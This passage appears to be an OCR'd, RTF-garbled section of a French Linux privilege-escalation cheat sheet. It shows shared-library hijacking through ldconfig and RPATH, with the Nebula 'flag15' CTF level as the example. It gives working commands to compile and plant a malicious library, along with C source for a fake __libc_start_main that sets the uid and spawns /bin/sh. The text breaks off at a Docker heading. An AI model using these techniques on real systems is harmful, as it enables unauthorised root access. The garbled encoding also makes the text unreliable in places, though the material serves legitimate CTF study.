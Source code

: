 ```powershell\
### ldconfig\
\
Identifier les librarys partag\'e9es avec `ldd`\
\
```powershell\
$ ldd /opt/binary\
    linux-vdso.so.1 (0x00007ffe961cd000)\
    vulnlib.so.8 => /usr/lib/vulnlib.so.8 (0x00007fa55e55a000)\
    /lib64/ld-linux-x86-64.so.2 => /usr/lib64/ld-linux-x86-64.so.2 (0x00007fa55e6c8000)        \
```\
\
On cr\'e9e library dans `/tmp` (on poss\uc0\u232 de les droits d\'92\'e9critures ici) et on active le chemin de fichiers.\
\
```powershell\
gcc \'96Wall \'96fPIC \'96shared \'96o vulnlib.so /tmp/vulnlib.c\
echo "/tmp/" > /etc/ld.so.conf.d/exploit.conf && ldconfig -l /tmp/vulnlib.so\
/opt/binary\
```\
\
### RPATH\
\
```powershell\
level15@nebula:/home/flag15$ readelf -d flag15 | egrep "NEEDED|RPATH"\
 0x00000001 (NEEDED)                     Shared library: [libc.so.6]\
 0x0000000f (RPATH)                      Library rpath: [/var/tmp/flag15]\
\
level15@nebula:/home/flag15$ ldd ./flag15 \
 linux-gate.so.1 =>  (0x0068c000)\
 libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0x00110000)\
 /lib/ld-linux.so.2 (0x005bb000)\
```\
\
En copiant la lib dans `/var/tmp/flag15/`, elle sera utilis\'e9e ici par le programme comme sp\'e9cifi\'e9 dans la variable `RPATH`.\
\
```powershell\
level15@nebula:/home/flag15$ cp /lib/i386-linux-gnu/libc.so.6 /var/tmp/flag15/\
\
level15@nebula:/home/flag15$ ldd ./flag15 \
 linux-gate.so.1 =>  (0x005b0000)\
 libc.so.6 => /var/tmp/flag15/libc.so.6 (0x00110000)\
 /lib/ld-linux.so.2 (0x00737000)\
```\
\
On cr\'e9e ensuite une lib malveillante dans `/var/tmp` avec `gcc -fPIC -shared -static-libgcc -Wl,--version-script=version,-Bstatic exploit.c -o libc.so.6`\
\
```powershell\
#include<stdlib.h>\
#define SHELL "/bin/sh"\
\
int __libc_start_main(int (*main) (int, char **, char **), int argc, char ** ubp_av, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void (* stack_end))\
\{\
 char *file = SHELL;\
 char *argv[] = \{SHELL,0\};\
 setresuid(geteuid(),geteuid(), geteuid());\
 execve(file,argv,0);\
\}\
```\
\
## Groupes\
\
### Docker\
```